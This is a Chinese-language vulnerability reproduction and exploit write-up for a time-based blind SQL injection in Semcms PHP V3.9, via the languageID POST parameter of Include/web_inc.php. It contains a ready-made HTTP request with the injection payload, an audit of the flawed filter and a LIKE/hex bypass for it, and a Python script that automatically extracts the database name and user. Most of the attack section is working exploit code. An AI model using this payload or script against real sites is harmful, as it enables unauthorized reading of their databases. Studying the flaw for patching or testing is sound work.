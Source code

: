 # Semcms PHP(多语)版 V3.9 sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

Semcms PHP(多语)版 V3.9

### 三、复现过程

漏洞详情

漏洞文件为Include下的web_inc.php文件

包


```bash
POST /Include/web_inc.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Content-Length: 64
Content-Type: application/x-www-form-urlencoded

languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);
```

基于时间的注入

**代码审计**

查看web_inc.php的关键代码


```php
if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

if(!empty($Language)){

      //网站SEO设定

      $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
      $row=mysqli_fetch_array($query);
      $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
      $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
      $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

......
```

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看


```php
function test_input($data) { 
      $data = str_replace("%", "percent", $data);
      $data = trim($data);
      $data = stripslashes($data);
      $data = htmlspecialchars($data,ENT_QUOTES);
      return $data;

   }
function inject_check_sql($sql_str) {

     return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
} 

function verify_str($str) { 

   if(inject_check_sql($str)) {

       exit('Sorry,You do this is wrong! (.-.)');
    } 

    return $str; 
}
```

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用if和sleep构造payload，因为<,=被过滤且存在htmlspecialchars函数，利用like代替


```bash
languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);
```

附上脚本


```python
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory

import requests

def getDatabase(url):
    s = ''
    r = requests.session()
    head = {'Content-Type':'application/x-www-form-urlencoded'}

    for i in range(1,9):
        for j in range(97,122):
            data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

            result = r.post(url, data, headers=head)

            if(result.elapsed.total_seconds() > 5):
                s = s + chr(j)
                print(s)
                break
    print('database=' + s)


def getUser(url):
    s = ''
    r = requests.session()
    head = {'Content-Type':'application/x-www-form-urlencoded'}

    for i in range(1,21):
        for j in range(64,90):
            data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

            result = r.post(url, data, headers=head)

            if(result.elapsed.total_seconds() > 5):
                s = s + chr(j).lower()
                print(s)
                break
    print('user=' + s)

if __name__ == '__main__':
    url = 'http://127.0.0.1/Include/web_inc.php'

    s = getDatabase(url)
    u = getUser(url)
```

运行截图

![](images/15893400595736.png)


![](images/15893400639193.png)


不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接

https://xz.aliyun.com/t/7122